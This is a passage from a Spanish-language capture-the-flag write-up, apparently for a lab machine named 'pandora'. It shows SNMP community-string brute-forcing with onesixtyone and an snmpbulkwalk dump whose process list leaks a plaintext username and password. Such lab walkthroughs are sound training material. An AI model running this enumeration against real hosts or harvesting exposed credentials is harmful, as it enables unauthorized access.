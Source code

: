 Ahora realizando el escaneo por UDP, como ya se de que se trata, se espera encontrar la "comunity string" que puede ser publica o privada, aunque lo mas comun es que las organizaciones usen una publica.
~~~bash
onesixtyone -c /usr/share/wordlists/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt 10.10.11.136 -w 100
Scanning 1 hosts, 120 communities
10.10.11.136 [public] Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64
10.10.11.136 [public] Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64
~~~
Se puede ver que presenta una llave publica, asi que inspeccionando mas a fondo, se puede ver algunos procesos que corren en el sistema objetivo, esto con herramientas como "snmpbulk" u otras, pero a mi me gusta mas usar "snmpbulkwalk" porque otorga mas información.
Esto es realmente tedioso porque otorga bastante información, pero se debe ver cada linea a detalle por si entrega alguna información util.
~~~bash
snmpbulkwalk -c public -v2c 10.10.11.136 .
iso.3.6.1.2.1.1.1.0 = STRING: "Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (59402) 0:09:54.02
iso.3.6.1.2.1.1.4.0 = STRING: "Daniel"
iso.3.6.1.2.1.1.5.0 = STRING: "pandora"
iso.3.6.1.2.1.1.6.0 = STRING: "Mississippi"
....
<SNIP>
....
iso.3.6.1.2.1.25.4.2.1.5.694 = ""
iso.3.6.1.2.1.25.4.2.1.5.695 = STRING: "--system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only"
iso.3.6.1.2.1.25.4.2.1.5.706 = STRING: "--foreground"
iso.3.6.1.2.1.25.4.2.1.5.707 = STRING: "/usr/bin/networkd-dispatcher --run-startup-triggers"
iso.3.6.1.2.1.25.4.2.1.5.711 = STRING: "-n -iNONE"
iso.3.6.1.2.1.25.4.2.1.5.720 = ""
iso.3.6.1.2.1.25.4.2.1.5.721 = ""
iso.3.6.1.2.1.25.4.2.1.5.722 = ""
iso.3.6.1.2.1.25.4.2.1.5.725 = ""
iso.3.6.1.2.1.25.4.2.1.5.812 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.823 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.824 = STRING: "-LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f -p /run/snmpd.pid"
iso.3.6.1.2.1.25.4.2.1.5.825 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.843 = ""
iso.3.6.1.2.1.25.4.2.1.5.857 = STRING: "-o -p -- \\u --noclear tty1 linux"
iso.3.6.1.2.1.25.4.2.1.5.861 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"
iso.3.6.1.2.1.25.4.2.1.5.876 = ""
iso.3.6.1.2.1.25.4.2.1.5.896 = STRING: "--no-debug"
iso.3.6.1.2.1.25.4.2.1.5.917 = ""
iso.3.6.1.2.1.25.4.2.1.5.984 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.1001 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.1002 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.1130 = STRING: "-u daniel -p HotelBabylon23"
iso.3.6.1.2.1.25.4.2.1.5.1135 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.1151 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.1152 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.1159 = STRING: "-k start"
....
<SNIP>
....
~~~